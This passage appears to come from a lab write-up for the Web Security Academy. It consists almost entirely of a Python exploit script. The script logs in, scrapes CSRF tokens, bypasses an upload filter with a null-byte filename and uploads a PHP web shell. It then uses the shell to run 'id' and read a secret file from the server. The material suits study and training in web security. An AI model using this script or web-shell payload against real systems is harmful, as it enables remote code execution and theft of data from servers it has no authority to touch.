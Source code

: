 The rest of the exploit is as per normal:

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a62005403c67b758140c51c00d0009d'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()
bypass_filename = 'evil.php%00.jpg'
filename = 'evil.php'

r = s.get(url + '/login')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
login_csrf_token = match[1]

data = {
	'csrf':login_csrf_token,
	'username':'wiener',
	'password':'peter'
}

login_r = s.post(url + '/login', data=data)
if login_r.status_code != 200:
	print("[-] Login failed")
	sys.exit(1)

print("[+] Login worked")
profile_r = s.get(url + '/my-account?id=wiener')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', profile_r.text)
upload_csrf_token = match[1]

file = {
	'avatar':(bypass_filename, '<?php system($_REQUEST["cmd"]); ?>', "application/x-php")
}

form_data = {
	'user':'wiener',
	'csrf':upload_csrf_token
}

r = s.post(url + '/my-account/avatar', files=file, data=form_data)
if f'avatars/{filename}' not in r.text:
	print(r.text)
	print("[-] Upload failed")
	sys.exit(1)
print("[+] Upload worked")


r = s.get(url + f'/files/avatars/{filename}?cmd=id')
if '12002(carlos)' not in r.text:
	print("[-] RCE failed")
	sys.exit(1)
print("[+] RCE worked")

params = {
	'cmd':'cat /home/carlos/secret'
}
r = s.get(url + f'/files/avatars/{filename}', params=params)
```